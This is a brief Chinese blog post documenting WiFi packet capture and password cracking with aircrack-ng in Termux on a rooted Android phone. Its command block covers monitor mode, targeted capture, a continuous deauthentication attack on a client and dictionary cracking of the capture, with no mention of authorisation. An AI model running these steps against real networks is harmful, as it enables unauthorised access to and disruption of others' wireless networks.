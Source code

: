 ```yaml
---
categories: [网络安全,WiFi,安卓,Termux,aircrack-ng]
date: 2022-7-18 14:00
---
```


## 起因

[这位大佬的博客](https://rainchan.win/2021/08/09/%E4%B8%80%E5%8A%A0wifi%E5%97%85%E6%8E%A2%E5%8A%9F%E8%83%BD%E8%A7%A3%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8)讲述了一个使用安卓手机抓取 WIFI 数据包的经历，我想用手里的*红米 K30 5G*与*小米 5*复现，于是有了这篇博文

以下内容均在*MIUI 12.5，安卓 10 的 红米 K30 5G*上完整复现，在此大概做个记录

*注意：执行以下操作需要手机获得 root 权限。*

## 正文

> `<>`表示需要根据实际情况更改的内容

```sh
pkg install wireless-tools iw tcpdump aircrack-ng ethtool pciutils -y # 有一些是不必要的，可以自行鉴别
# 进入 monitor 模式，抓取数据包并破解
# 此处的命令不一定准确，具体可以`aircrack-ng`为关键词自行搜索教程
tsu
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0
airodump -w <filenamePrefix> -c <channel> --bssid <bssid> wlan0 --ignore-negative-one
aireplay-ng -0 0 -a <bssid> -c <clientMac> --ignore-negative-one # 有发送数据包的输出，但被攻击端并未断开连接
aircrack-ng <filenamePrefix>-<xx>.cap -w <dictionaryPath>
 ```

```sh
# 退出
airmon-ng stop wlan0
```
